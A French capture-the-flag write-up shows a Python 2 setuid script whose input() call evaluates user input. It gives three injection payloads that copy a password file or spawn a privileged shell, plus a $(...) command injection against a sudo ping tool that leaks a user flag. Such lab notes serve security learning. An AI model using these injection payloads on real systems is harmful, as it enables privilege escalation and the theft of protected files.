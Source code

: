### Injection python
Code source

1. #!/usr/bin/python2
2.  
3. import sys
4.  
5. def youLose():
6.     print "Try again ;-)"
7.     sys.exit(1)
8.  
9.  
10. try:
11.     p = input("Please enter password : ")
12. except:
13.     youLose()
14.  
15.  
16. with open(".passwd") as f:
17.     passwd = f.readline().strip()
18.     try:
19.         if (p == int(passwd)):
20.             print "Well done ! You can validate with this password !"
21.     except:
22.         youLose()


Comme expliqué dans les précédentes solutions la faille se trouve à ce niveau :
p = input("Please enter password : ")
 puisque dans python2, input(x) = eval(raw_input(x)) ce qui implique que la fonction eval(x) exécutera
 les entrées utilisateurs, ce qui nous intéresse beaucoup.
Voici ma commande pour obtenir le flag :
1. shell6@challenge02:~$ ./setuid-wrapper
2. Please enter password : __import__('os').system('cat /challenge/shell/shell6/.passwd > /tmp/flag')
3. Try again ;-)
4. shell6@challenge02:~$ cat /tmp/flag
5. LE_FLAG_DU_CHALLENGE


Voici un deuxième exemple de commande mais avec une fonction différente :
1. shell6@challenge02:~$ ./setuid-wrapper
2. Please enter password : __import__('shutil').copyfile('/challenge/shell/shell6/.passwd', '/tmp/flag2')
3. Try again ;-)
4. shell6@challenge02:~$ cat /tmp/flag2
5. LE_FLAG_DU_CHALLENGE


On peut également obtenir un shell, pour ensuite inspecter directement le fichier .passwd :
1. shell6@challenge02:~$ ./setuid-wrapper
2. Please enter password : __import__('os').system('sh')
3. sh-4.2$ id
4. uid=1042(shell6) gid=1042(shell6) euid=1043(shell6cracked) groupes=1043(shell6cracked),100(users),1042(shell6)
5. sh-4.2$ cat .passwd
6. LE_FLAG_DU_CHALLENGE
7. sh-4.2$ exit
8. Try again ;-)
9. 



================================================================
os.command( "ping" + var )

jouer avec les parenthèse comme:

$(/bin/bash) 

exemple:
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
    <do -u pepper /var/www/Admin-Utilities/simpler.py -p
    ***********************************************
         _                 _
     ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
    / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
    \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
    |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                    |_|               |_|    |___/
                                    @ironhackers.es

    ***********************************************

    Enter an IP: $(cat ~/user.txt)
    ping: 2afa36c4f05b37b34259c93551f5c44f: Temporary failure in name resolution

=================================================================






